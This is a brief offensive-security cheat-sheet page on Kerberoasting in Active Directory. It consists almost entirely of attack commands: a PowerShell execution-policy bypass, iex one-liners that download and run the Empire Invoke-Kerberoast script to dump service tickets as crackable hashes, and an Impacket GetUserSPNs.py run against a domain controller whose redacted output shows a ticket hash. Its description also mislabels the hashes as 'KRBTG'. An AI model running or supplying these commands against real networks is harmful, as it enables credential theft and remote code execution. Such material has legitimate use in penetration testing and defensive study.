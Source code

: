 ```yaml
---
title : "Kerberoasting"
# pre : ' '
description : "Abusing the kerberos protocol to gain KRBTG hashes to crack."
date : 2020-07-08T09:50:07+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Kerberoasting

Abusing the kerberos protocol to gain KRBTG hashes to crack.

### Powershell

```powershell
Set-ExecutionPolicy -scope process -execution bypass
```

```powershell
iex((iwr https://raw.githubusercontent.com/justin-p/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1).content);invoke-kerberoast -outputformat Hashcat | export-csv C:\temp\kerb_tickets.csv
```

```powershell
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

On SSL/TLS error:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
```

### GetUserSPNs.py - Impacket

```plain
$ GetUserSPNs.py -target-domain offsec.nl -request -outputfile out.log -dc-ip 10.10.10.10 offsec.nl/normal-user
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

Password:
ServicePrincipalName               Name               MemberOf                                                              PasswordLastSet             LastLogon                   Delegation
---------------------------------  -----------------  --------------------------------------------------------------------  --------------------------  --------------------------  ----------
SRV2016-DC/DC01.offsec.nl         DC01 [REDACTED]

$ cat out.log
$krb5tgs$23$*[REDACTED]
```

